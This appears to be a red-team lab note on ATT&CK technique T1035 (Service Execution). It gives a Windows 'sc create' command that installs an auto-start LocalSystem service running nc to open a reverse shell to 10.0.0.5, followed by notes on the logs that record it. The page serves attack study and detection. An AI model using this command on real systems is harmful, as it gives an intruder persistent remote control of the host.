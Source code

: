 ```yaml
---
description: 'Code execution, privilege escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with an nc reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

![](../.gitbook/assets/services-shell.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1035\",\"type\":\"link\",\"title\":\"Service Execution - ATT&CK for Enterprise\"}" %}

